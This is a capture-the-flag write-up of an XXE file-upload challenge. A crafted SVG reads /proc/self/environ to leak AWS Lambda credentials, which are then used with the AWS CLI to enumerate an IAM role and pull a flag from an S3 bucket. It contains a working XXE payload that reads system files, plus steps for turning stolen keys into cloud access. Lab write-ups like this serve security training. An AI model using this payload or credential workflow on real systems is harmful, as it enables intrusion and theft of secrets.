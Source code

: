# File Upload XXE to Initial Access

As a first step, we have the ip address of the machine where we will perform an nmap scanning


nmap -sV -sC -Pn `52.52.110.46`
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up.png)

we go inside `52.52.110.46:80`
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up2.png)
and go to the upload section

where we can insert documents or PDF,SVG,PNG,DOC
Now let's try inserting a PDF file 
We start by downloading the target PDF file from the specified S3 bucket. The file can be found at the following URL:
https://huge-logistics-dump.s3.us-west-1.amazonaws.com/uploads/file_XsbYgmXZ5n.pdf
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up3.png)
To exploit the XXE vulnerability, we need to inject a reference to an external entity into an XML document. This will cause the XML parser to read from a local file, such as /proc/self/environ, which contains environment variables that could include sensitive AWS credentials.

The XML payload can be constructed as follows:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<svg>
  <text>&xxe;</text>
</svg>
```

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up4.png)
This code injects the contents of /proc/self/environ (which includes environment variables) into an SVG document. The XXE vulnerability allows you to extract sensitive information, such as AWS access keys, session tokens and other environment variables.

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up5.png)
Lambda functions can access environment variables in the file /proc/self/environ. To retrieve sensitive data such as AWS credentials, you can export these environment variables:

export AWS_ACCESS_KEY_ID="<access_key>"

export AWS_SECRET_ACCESS_KEY="<secret_key>"

export AWS_SESSION_TOKEN="<secret_token>"

# ATTENTION

Important Notes:

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup6.png)

Be sure to exclude the SHLVL parameter, as it may interfere with AWS credentials.
AWS session tokens are base64 encoded, so be sure to copy the entire token, including the final = or == characters.
AWS credentials beginning with AKIA indicate long-term keys, while those beginning with ASIA are temporary session keys that require a session token.
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup7.png)

To obtain AWS entity information, run the following command:


`aws sts get-caller-identity`
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup8.png)
If you already know the name of the role, you can obtain the details of the role using the command:

`aws iam get-role --role-name S3PutObjectRole`


This command returns the JSON output shown below and the role description refers to a new bucket named logistics-processing bucket. 
`{
    "Role": {
        "Path": "/",
        "RoleName": "S3PutObjectRole",
        "RoleId": "AROARSCCN4A3XDUV2IJGA",
        "Arn": "arn:aws:iam::107513503799:role/S3PutObjectRole",
        "CreateDate": "2023-10-30T06:34:05Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Description": "Allows Lambda functions to write objects in the huge-logistics-dump bucket and read from the huge-logistics-processing bucket.",
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {
            "LastUsedDate": "2023-11-22T16:51:21Z",
            "Region": "us-west-1"
        }
    }
}`

This reveals a SQLite database called data-service.sqlite . 
SQLite is a popular and easy-to-use relational database system that developers often incorporate into their applications.

To see the files contained in the huge-logistics-processing bucket, use the command:

`aws s3 ls huge-logistics-processing --recursive --human-readable --summarize`

This command will list all the files in the bucket, showing their size in a readable format and a summary of the information.

In the bucket there is a file called flag.txt, you can retrieve it with the command:

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup9.png)

 `aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt -`

The - symbol at the end of the command indicates that you want to display the contents of the file directly in the terminal, instead of copying it to a local file

If you prefer to save the file locally, you can do so:
`aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt /path/to/local/flag.txt`

naturally replace /path/to/local with the path you wish to save the file.

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup10.png)



# FLAG FOUND!!!
